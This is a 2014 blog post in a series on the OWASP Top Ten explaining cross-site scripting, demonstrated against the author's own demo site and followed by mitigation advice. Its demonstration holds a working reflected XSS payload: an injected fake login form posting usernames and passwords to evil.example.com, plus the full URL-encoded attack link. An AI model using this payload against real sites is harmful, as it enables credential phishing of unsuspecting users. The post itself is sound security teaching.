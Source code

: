```yaml
---
layout: post
title: OWASP 03 - Cross Site Scripting (XSS)
date: 2014-08-24
---
```


The third vulnerability on our trek through the OWASP top ten is [Cross-Site Scripting](https://www.owasp.org/index.php/Top_10_2013-A3-Cross-Site_Scripting_(XSS)), commonly known as XSS. It's easy to overlook the danger of XSS, as it primarily affects the client side. But, user credentials can be leaked and sites can be rendered unusable by client side scripts.

Demonstration
=============

The "hack yourself first" security sandbox doesn't appear to be vulnerable to these kind of shenanigans, so we'll turn to an alternative this time around. Not wanting to pick on a real site, I've created my own little demo site to attack at http://softwarealchemist.net/web-vulnerability-demo-site/ . This is a simple, single page site that just performs a Google image search on behalf of the user.

Now, there are two broadly defined kinds of XSS attack:

1. The stored variety, where the attacker gets some malicious client side code into the application database, for it to be regurgitated at other users of the site at some later time.
2. The reflected variety, where the attacker constructs a link with the XSS payload encoded into the URL. The attacked site then blurts the payload back at the unsuspecting visitor who clicked the link.

As our demo site doesn't have a database, we're going to look at how a reflected XSS attack works.

Head to the demo page, and type in any word in the search box. Simple enough.

Now let's see how well the site filters out dangerous inputs, try searching for `<h1>something`. The HTML we type in ends up rendered onto the page. Looks like the filtering isn't very good at all (in fact, it's non-existent).

So now, we'll do something that would be potentially harmful to a user. On a real site, we'd be concerned about data entered by the user leaving the site (think of form fields, cookies, etc.). On our site, the only information provided by the user is the search term. However, if we think a little outside the box we could get more information.

One way of mounting an XSS attack is to inject a fake form into a legitimate site. In this case, we'll ask the user for a username and password (it doesn't really matter if the login is for this service or some other). The form posts to some other (evil) website, but it appears on the attacked site.

Our form might look like this:

```html
  <form action='http://evil.example.com/getpassword'>
    Username: <input name='u' />
    Password: <input name='p' type='password' />
    <input type='submit' value='Login to Bookface' />
  </form>
```

The next question for an attacker is how to get people to type all that garbage in the search box. Of course, they don't. Take a look at how the results page is loaded. It's a GET request with everything right there in the query string. So we can construct a URL like this:

`http://softwarealchemist.net/web-vulnerability-demo-site/?search-term=%3Cform%20action%3D%22http%3A%2F%2Fevil.example.com%2Fgetpassword%22%3EUsername%3A%20%3Cinput%20name%3D%22u%22%20%2F%3EPassword%3A%20%3Cinput%20name%3D%22p%22%20type%3D%22password%22%20%2F%3E%3Cinput%20type%3D%22submit%22%20value%3D%22Login%20to%20Bookface%22%20%2F%3E%3C%2Fform%3E`

This means that the attacker can just post the link online and wait for an unsuspecting web user to click on it. The effectiveness of the attack hinges on how likely someone is to come across the link, click on it and fill out the form.

For many more (cute and harmless) examples, and to realise how wide spread this vulnerability is, have a look at the "kitten bombs" twitter account [https://twitter.com/KittenBombs]

Mitigation
==========

This kind of attack is usually fairly easy to mitigate for any given input on any given page of your website or application, the tricky part is making sure that *all* inputs are guarded against.

Practically every framework you might use, server side or client side, has the capacity to escape outputs so that user supplied HTML and JavaScript cannot be emitted to the client side. (In fact, I had to go to some effort in the example site to *allow* user supplied HTML onto the page).

I would advise that, if you can, you periodically audit your codebase for risky outputs, using a linter or even just a quick grep. For example, in .NET view pages, you should rarely (if ever) use the unescaped `<%= %>` to produce output, preferring to use the escaped sequence (`<%: %>`).

Of course, the above advice only applies to times when yo udo not want any HTML from the user ending up on the page. It's all a bit more finicky if you do want to allow a restricted subset (for example, on forums and wikis). In most cases, if you are building a business web application, you'll want to avoid this if at all possible, and rely on a third party library if not. The usual advice about keeping your libraries up to date and regularly reading the bug tracker and release notes apply.
